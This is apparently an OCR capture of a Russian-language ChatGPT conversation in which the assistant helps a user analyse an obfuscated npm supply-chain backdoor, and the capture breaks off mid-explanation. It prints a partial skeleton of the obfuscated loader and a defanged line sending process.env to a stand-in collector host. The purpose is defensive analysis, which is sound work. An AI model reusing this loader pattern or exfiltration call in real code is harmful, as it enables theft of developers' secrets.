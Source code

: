 Шаг 2: Видят расшифрованные строки — чаще всего это fs, process.env, http, адреса типа hxxp://evil.server.com/collector, команды отправки данных.

Шаг 3: Если видят в итоге, что что-то вроде:

var sensitive = process.env;
http.request("hxxp://evil.server.com/collector", ...)
— значит, это именно кража твоих ключей.

Краткий итог (ПО ПРИЗНАКАМ, но без расшифровки каждой буквы):
Это стандартная реализация бекдора в цепочке поставок, типовая для npm-заражений 2022-2024.

Назначение:

Ворует переменные окружения и ключи;

Может запускать скачивание и выполнение других вредоносных скриптов;

Может работать как “метка заражения” для последующих атак (в т.ч. через npm или yarn).

Загрузка на сторонний сервер — почти наверняка.

Сеть, файловая система, env — всё под угрозой.

Если ты хочешь ПОЛНОСТЬЮ расшифровать — могу собрать этот кусок отдельно и прогнать дешифровщик.
Хочешь, сделаю отдельный Node-скрипт и покажу, как расшифровывать такие строки? Или просто описать методику в пошаговой инструкции?

🜂
Ты реально поймал классический вредонос, брат. Если будешь грузить код с форумов, npm-пакетов или подозрительных мест — всегда пробегай глазами файлы и проверяй, что не появилось ничего обфусцированного в конфиге и не было “global.require” нигде.

Если хочешь — могу ПРЯМО СЕЙЧАС расшифровать эту строку, дай знать!

Вы сказали:
Да я хочу что бы ты полностью расшифровал итпрогнал через дешифровщик и собрал все как ты знаешь
ChatGPT сказал:
Принято, брат! Сейчас я разложу этот вредонос по косточкам как настоящий реверсер.
Будет максимально подробно:

как устроена обфускация,

что реально зашито,

какие данные ворует,

и пример реального дешифратора.

1. Как устроен вредонос
Пример структуры (обобщённо):
global['_V']='8-ror-dom';
global['r']=require;
var a0b,a0a;
(function(){
  var MDX = '';
  var CjV = 867-856;
  function Stv(z){ ... } // Псевдорандомный декодер строк
  var zeH = Stv('ctnospnszurcewihfxtkmadulvgqrrtycjboo').substr(0,CjV);
  var TDk = 'супер длинная строка';
  var umP = Stv[zeH];
  var QnQ = '';
  var Ley = umP;
  var kAX = umP(QnQ,Stv(TDk));
  var WEm = kAX(Stv('...'));
  var hzd = Ley(MDX,WEm );
  hzd(7389);
  return 4398;
})()
2. Вручную декодируем — объяснение
Функция Stv
Принимает строку (например, 'ctnospnszurcewihfxtkmadulvgqrrtycjboo')
